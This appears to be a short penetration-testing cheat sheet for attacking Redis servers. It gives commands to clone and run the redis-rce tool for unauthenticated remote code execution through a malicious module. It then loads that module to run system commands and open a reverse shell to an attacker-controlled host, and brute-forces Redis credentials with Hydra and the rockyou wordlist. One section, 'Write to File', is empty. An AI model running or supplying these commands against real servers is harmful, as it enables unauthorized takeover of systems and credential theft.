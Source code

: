 # Redis

- Authenticate Redis
```
redis-cli -h 192.168.181.69 -p 6379
```


## Redis 4.x / 5.x - Unauthenticated Code Execution [linux/redis/redis_replication_cmd_exec]

```
git clone https://github.com/Ridter/redis-rce
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
cd RedisModules-ExecuteCommand
make
python3 redis-rce.py -r <remote-ip> -p <port> -L <local-ip> -f ../RedisModules-ExecuteCommand/module.so
```

## Load Module

```
MODULE LOAD /path/to/module.so
system.exec "whoami"
system.rev LHOST LPORT
```
[HINT](https://www.youtube.com/watch?v=LlzpyGcA-ak&ab_channel=Tech69)

## Write to File


## Hydra
```
hydra -P /usr/share/wordlists/rockyou.txt redis://192.168.176.166
```

